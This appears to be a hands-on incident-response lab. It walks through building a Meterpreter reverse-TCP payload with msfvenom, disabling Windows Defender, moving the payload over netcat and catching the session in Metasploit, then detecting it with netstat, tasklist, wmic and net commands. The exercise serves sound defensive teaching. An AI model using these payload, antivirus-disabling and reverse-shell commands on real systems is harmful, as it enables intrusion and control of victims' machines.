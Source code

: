 

# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

In the default powershell Window that opens, lets ensure that Defender is off;

PS C:\Users\adhd> `Set-MpPreference -DisableRealtimeMonitoring $true`

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of truning back on again..

And now, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

`sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

/#`ls -l TrustMe.exe`

`nc -l -p 2222 < TrustMe.exe`

Now, let's start the Metasploit Handler.  You will have to open another Ubuntu command prompt by selecting the down carrot from the upper tabs on the Windows Terminal and selecting Ubuntu.

Let's become root first!!!
`sudo su -`

Now, let's start the Metasploit handler.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](attachments/TrustMe.png)

Back at your Ubuntu prompt, you should have a metasploit session.

![](attachments/Clipboard_2020-06-12-12-55-11.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

![](attachments/Clipboard_2020-12-09-13-24-45.png)

Once we are in, lets start with looking at the network connections:

First, let's create a share

`net share class=C:\Tools`

Now, let's look at that share

`net view \\127.0.0.1`

Next, let's create some sessions

`net use * \\127.0.0.1\c$`


We can see those sessions with... 

`net session`

And...

`net use`

It should all look like this:

![](attachments/netcommands.PNG)


While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try looking at our malware!

`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-41-32.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/Clipboard_2020-12-09-13-41-54.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/Clipboard_2020-12-09-13-48-21.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-49-49.png)

![](attachments/Clipboard_2020-12-09-13-50-01.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq <PID>"`

Your PID WILL BE DIFFERENT!

![](attachments/Clipboard_2020-12-09-13-55-22.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

`wmic process where processid=<PID> get commandline`

![](attachments/Clipboard_2020-12-09-13-58-16.png)

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.


Let's see if we can see what spawned the process with wmic.

`wmic process get name,parentprocessid,processid`

![](attachments/Clipboard_2020-12-09-14-01-04.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser. 










 


